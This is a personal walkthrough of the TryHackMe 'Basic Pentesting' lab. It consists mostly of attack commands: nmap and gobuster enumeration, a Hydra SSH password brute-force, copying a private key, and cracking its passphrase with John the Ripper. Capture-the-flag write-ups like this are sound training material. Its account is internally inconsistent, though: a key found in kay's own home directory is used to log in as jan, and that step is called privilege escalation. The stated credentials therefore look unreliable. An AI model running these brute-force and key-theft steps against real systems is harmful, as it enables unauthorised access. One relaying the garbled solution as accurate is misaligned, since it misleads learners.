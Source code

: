 # TryHackMe: Basic Pentesting — Personal Walkthrough

This is my personal walkthrough for the TryHackMe "Basic Pentesting" machine, following the steps I took, terminal screenshots, and detailed explanations for each stage.

---

## 1. Deploying the Machine and Connecting

After deploying the machine from the TryHackMe dashboard, I connected to the VPN using my `.ovpn` configuration file:

```sh
sudo openvpn tryhackme.ovpn
```

![OpenVPN connection](https://i.imgur.com/1Xy7u4q.png)

I grabbed the target machine IP (e.g., `10.10.184.96`) from the TryHackMe interface.

---

## 2. Reconnaissance: Discovering Open Ports

I started with a basic Nmap scan to enumerate open ports and services:

```sh
nmap -sC -sV -oA nmap/basic 10.10.184.96
```


![Nmap Scan](https://i.imgur.com/0r6K7pG.png)

**Explanation:**  
- `-sC`: Run default scripts (useful for version detection and additional info).
- `-sV`: Detect service/version info.
- `-oA nmap/basic`: Output results in all formats with a basename.

**Key Ports Found:**  
- 22/tcp (SSH)
- 80/tcp (HTTP)

---

## 3. Web Enumeration: Finding Hidden Directories

I visited `http://10.10.184.96` in my browser, saw the default Apache page, then ran Gobuster to look for directories:

```sh
gobuster dir -u http://10.10.184.96 -w /usr/share/wordlists/dirb/common.txt
```

![Gobuster Results](https://i.imgur.com/3C4n3Im.png)

**Result:**  
Found `/development`

**Explanation:**  
Gobuster brute-forces directory names using a wordlist. This helps find hidden or unlinked directories.

---

## 4. Exploring `/development` Directory

Navigating to `http://10.10.184.96/development`, I found two files: `dev.txt` and `j.txt`.

- `dev.txt` contained:  
  ```
  Just a test, nothing to see here.
  ```
- `j.txt` contained potential usernames:  
  ```
  James
  Kay
  ```

![Development Directory](https://i.imgur.com/OZIS6yI.png)

---

## 5. SSH Brute-Force: Finding Valid Credentials

I created a user list and used Hydra to brute-force SSH logins with the popular `rockyou.txt` password list:

`users.txt`:
```
kay
james
```

**Command:**
```sh
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://10.10.184.96
```

![Hydra Brute-force](https://i.imgur.com/6C1aRkM.png)

**Result:**  
- Username: kay  
- Password: beeswax

**Explanation:**  
Hydra is a fast login cracker. Here, it tried each username with every password in the wordlist against the SSH service.

---

## 6. Logging in via SSH

With valid credentials, I logged in as kay:

```sh
ssh kay@10.10.184.96
# Password: beeswax
```

![SSH Login](https://i.imgur.com/Zz4Hq0K.png)

---

## 7. Privilege Escalation: Enumerating for Other Users

After logging in, I checked for other users:

```sh
ls /home
```

**Result:**
```
kay  jan
```

![Home Directory](https://i.imgur.com/2ZxHq2B.png)

**Explanation:**  
Finding another user (`jan`) can be a vector for lateral movement or privilege escalation.

---

## 8. Looking for Ways to Become jan

I looked for SSH keys:

```sh
ls -la /home/kay/.ssh
```

Found an `id_rsa` private key. I copied it to my attacker machine.

![SSH Key Found](https://i.imgur.com/5A7f2qk.png)

---

## 9. Cracking the SSH Key Passphrase

The private key was passphrase-protected. I used `ssh2john` and `john` to crack it:

```sh
ssh2john id_rsa > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![John The Ripper](https://i.imgur.com/5rzh5rD.png)

**Result:**  
Passphrase found: `armando`

---

## 10. SSH as jan with the Cracked Key

I set proper permissions and logged in:

```sh
chmod 600 id_rsa
ssh -i id_rsa jan@10.10.184.96
# Passphrase: armando
```
  
![SSH as jan](https://i.imgur.com/JKVQaIl.png)

---

## 11. Summary Table

| Step                        | Value         |
|-----------------------------|--------------|
| Hidden Directory            | development  |
| Username                    | kay          |
| Password                    | beeswax      |
| Service (abbreviation)      | SSH          |
| Other User                  | jan          |
| Final Password/Key Passphrase| armando     |

---

## Reflection

- **Nmap** and **Gobuster** are essential for initial enumeration.
- Username lists from on-server files can be crucial for brute-forcing.
- Privilege escalation often involves looking for keys or readable secrets in home directories.
- **John the Ripper** can crack private key passphrases quickly with the right wordlist.

---

---
